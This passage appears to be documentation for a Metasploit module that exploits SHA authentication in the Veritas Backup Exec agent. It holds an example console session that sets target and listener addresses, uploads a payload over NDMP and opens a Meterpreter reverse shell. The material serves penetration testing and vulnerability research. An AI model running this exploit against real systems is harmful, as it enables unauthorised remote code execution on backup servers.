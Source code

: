 An example session is as follows:

```
msf6 > use exploit/multi/veritas/beagent_sha_auth_rce
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(multi/veritas/beagent_sha_auth_rce) > set rhosts 172.16.180.141
rhosts => 172.16.180.141
msf6 exploit(multi/veritas/beagent_sha_auth_rce) > set lhost 172.16.180.248
lhost => 172.16.180.248
msf6 exploit(multi/veritas/beagent_sha_auth_rce) > show options

Module options (exploit/multi/veritas/beagent_sha_auth_rce):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  172.16.180.141   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT   10000            yes       The target port (TCP)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.16.180.248   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows


msf6 exploit(multi/veritas/beagent_sha_auth_rce) > check

[*] 172.16.180.141:10000 - Checking vulnerability
[*] 172.16.180.141:10000 - Connecting to BE Agent service
[*] 172.16.180.141:10000 - Getting supported authentication types
[*] 172.16.180.141:10000 - Supported authentication by BE agent: BEWS2 (190), SHA (5), SSPI (4)
[*] 172.16.180.141:10000 - BE agent revision: 9.3
[*] 172.16.180.141:10000 - The target appears to be vulnerable. SHA authentication is enabled
msf6 exploit(multi/veritas/beagent_sha_auth_rce) > run

[*] Started reverse TCP handler on 172.16.180.248:4444
[*] 172.16.180.141:10000 - Running automatic check ("set AutoCheck false" to disable)
[*] 172.16.180.141:10000 - Checking vulnerability
[*] 172.16.180.141:10000 - Connecting to BE Agent service
[*] 172.16.180.141:10000 - Getting supported authentication types
[*] 172.16.180.141:10000 - Supported authentication by BE agent: BEWS2 (190), SHA (5), SSPI (4)
[*] 172.16.180.141:10000 - BE agent revision: 9.3
[+] 172.16.180.141:10000 - The target appears to be vulnerable. SHA authentication is enabled
[*] 172.16.180.141:10000 - Exploiting ...
[*] 172.16.180.141:10000 - Connecting to BE Agent service
[*] 172.16.180.141:10000 - Enabling TLS for NDMP connection
[*] 172.16.180.141:10000 - Passing SHA authentication
[*] 172.16.180.141:10000 - Uploading payload with NDMP_FILE_WRITE packet
[*] Sending stage (175686 bytes) to 172.16.180.141
[*] Meterpreter session 1 opened (172.16.180.248:4444 -> 172.16.180.141:49629) at 2022-09-23 10:33:42 +0300

meterpreter > getuid
```
